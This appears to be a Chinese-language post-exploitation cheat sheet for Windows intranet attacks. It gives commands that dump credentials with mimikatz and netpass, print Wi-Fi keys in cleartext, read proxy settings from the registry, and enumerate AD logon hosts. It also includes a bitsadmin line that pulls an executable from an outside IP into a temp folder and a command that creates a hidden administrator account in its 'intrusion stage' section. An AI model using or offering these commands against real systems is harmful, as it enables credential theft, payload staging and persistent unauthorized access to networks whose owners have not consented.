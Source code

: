 - **发现远程登录密码等密码** netpass.exe 下载https://www.nirsoft.net/utils/network_password_recovery.html

- **获取window vpn密码**：

  mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit

- **wifi密码**：

  netsh wlan show profile 查处wifi名下一条命令用 netsh wlan show profile WiFi-name key=clear

- **ie代理**

  reg query “HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet Settings” /v ProxyServer
  reg query “HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings”

- **pac代理**

  reg query “HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet Settings” /v AutoConfigURL //引自 t0stmail

- **查看 user 可以的登录主机**，`adfind -h 192.168.1.101 -sc u:test`
  查看结果 userworkstations 的值即为可登录主机 下载 link http://www.joeware.net/freetools/tools/adfind/index.htm

- 常用命令

  ```shell
  ping          icmp连通性
  nslookup www.baidu.com vps-ip dns连通性
  dig @vps-ip www.baidu.com
  curl vps:8080  http连通性
  tracert
  bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >=2008
  fuser -nv tcp 80 查看端口pid
  rdesktop -u username ip linux连接win远程桌面 (有可能不成功)
  where file win查找文件是否存在 
  找路径，Linux下使用命令find -name *.jsp来查找，Windows下，使用for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i
  netstat -apn | grep 8888   kill -9 PID   查看端口并kill
  ```

  

## 入侵阶段

- #### 3389

  判断是内网，还是外网，内网转发到vps 

  ```shell
  netstat -ano,没有开启3389端口,复查下
  tasklist /svc,查svchost.exe对应的TermService的pid,看netstat相等的pid即3389端口.
  ```

  

- ### 添加user

  ```shell
  net user admin1 admin1 /add & net localgroup administrators admin1 /add
  ```
